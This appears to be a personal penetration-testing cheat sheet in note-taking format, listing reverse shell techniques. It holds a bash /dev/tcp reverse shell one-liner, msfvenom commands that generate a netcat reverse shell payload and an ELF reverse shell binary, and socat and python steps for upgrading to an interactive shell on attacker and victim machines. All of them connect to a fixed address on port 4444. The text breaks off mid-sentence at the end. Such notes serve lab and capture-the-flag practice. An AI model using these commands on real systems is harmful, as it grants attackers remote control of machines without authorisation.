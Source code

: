 ### One-liner reverse shell
For more reverse shell examples [check this out](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).
	- #### Just `bash`
	  logseq.order-list-type:: number
	  ```bash
	  bash -c "bash -i >& /dev/tcp/10.10.14.147/4444 0>&1"
	  ```
	- #### Generate one-liner reverse shells with `msfvenom`
	  logseq.order-list-type:: number
		- List payloads
		  logseq.order-list-type:: number
		  ```bash
		  msfvenom -l payloads | grep "cmd/unix" | awk '{print $1}'
		  ```
		- Use `netcat` regardless if it's the GNU ore the openBSD (the one with `-e` option) implementation
		  logseq.order-list-type:: number
		  ```bash
		  ┌──(crazybyte㉿kali)-[~]
		  └─$ msfvenom -p cmd/unix/reverse_netcat lhost=10.10.14.147 lport=4444
		  [-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
		  [-] No arch selected, selecting arch: cmd from the payload
		  No encoder specified, outputting raw payload
		  Payload size: 90 bytes
		  mkfifo /tmp/zmko; nc 10.10.14.147 4444 0</tmp/zmko | /bin/sh >/tmp/zmko 2>&1; rm /tmp/zmko
		  ```
	- #### Create ELF x64 reverse shell
	  logseq.order-list-type:: number
	  ```bash
	  msfvenom -p linux/x64/shell_reverse_tcp lhost=10.10.14.147 lport=4444 -f elf > rv
	  chmod +x rv
	  ```
	  `nc` needs to be available and reaceable from `$PATH`.
- #### Upgrade from a simple shell to a fully interactive tty
  Additional info can be found [here](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/).
	- With `python`
	  
	  ```bash
	  python -c 'import pty; pty.spawn("/bin/bash")'
	  ```
	- With `socat`
		- On Kali (Attacker)
		  
		  ```bash
		  socat file:`tty`,raw,echo=0 tcp-listen:4444
		  ```
		- On the victim machine
		  
		  ```bash
		  socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.147:4444
		  ```
	- With `pythom` + `netcat` + some magic
	  *This is the Phineas Fisher method.*
		- Within the reverse shell
		  
		  ```bash
		  python -c 'import pty; pty.spawn("/bin/bash")'
		  Ctrl-Z
		  ```
		- From Kali
		  NB: This needs to be done i
		  
		  ```bash
		  stty raw -echo
		  fg
		  ```